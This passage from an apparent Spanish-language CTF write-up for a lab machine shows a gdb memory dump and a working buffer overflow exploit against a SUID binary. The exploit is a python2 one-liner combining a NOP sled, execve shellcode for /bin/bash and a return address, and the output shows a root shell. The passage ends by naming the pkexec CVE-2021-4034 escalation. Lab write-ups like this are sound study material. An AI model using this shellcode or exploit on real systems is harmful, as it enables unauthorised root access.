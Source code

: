 ```bash

<!-- SNIP --!>

0xffffd67e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd68e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd69e:	0x90909090	0x90909090	0x90909090	0x99580b6a
0xffffd6ae:	0x2d686652	0x52e18970	0x2f68686a	0x68736162
0xffffd6be:	0x6e69622f	0x5152e389	0xcde18953	0xffd1e080
0xffffd6ce:	0xffd1e0ff	0xffd1e0ff	0xffd1e0ff	0x534c00ff
0xffffd6de:	0x4c4f435f	0x3d53524f	0x303d7372	0x3d69643a
0xffffd6ee:	0x333b3130	0x6e6c3a34	0x3b31303d	0x6d3a3633
0xffffd6fe:	0x30303d68	0x3d69703a	0x333b3034	0x6f733a33
0xffffd70e:	0x3b31303d	0x643a3533	0x31303d6f	0x3a35333b
0xffffd71e:	0x343d6462	0x33333b30	0x3a31303b	0x343d6463
0xffffd72e:	0x33333b30	0x3a31303b	0x343d726f	0x31333b30

```

Apunto con el $eip a la direccion 0xffffd54e ya que esta dentro del rango de nops

```bash
(gdb) r $(python2 -c 'print "\x90" * (512 - 33) + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x4e\xd5\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/dontexecute $(python2 -c 'print "\x90" * (512 - 33) + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x4e\xd5\xff\xff"')
process 27342 is executing new program: /bin/bash
buffemr@buffemr:/opt$
```

El buffer overflow funciona correctamente ya que nos crea una bash. Realizo el buffer overflow fuera de *gdb* para que se ejecute como root y crear una bash como el usuario root

```bash
buffemr@buffemr:/opt$ ./dontexecute $(python2 -c 'print "\x90" * (512 - 33) + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x4e\xd5\xff\xff"')
bash-4.4# whoami
root
```

# PWNED

YEI :D PWNED, hasta aca el CTF.

A continuacion otra manera de escalar privilegios

## PRIVILEGE ESCALATION II

> Encuentro el binario **/usr/bin/pkexec**, el cual es vulnerable a una escalada de privilegios (CVE-2021-4034)
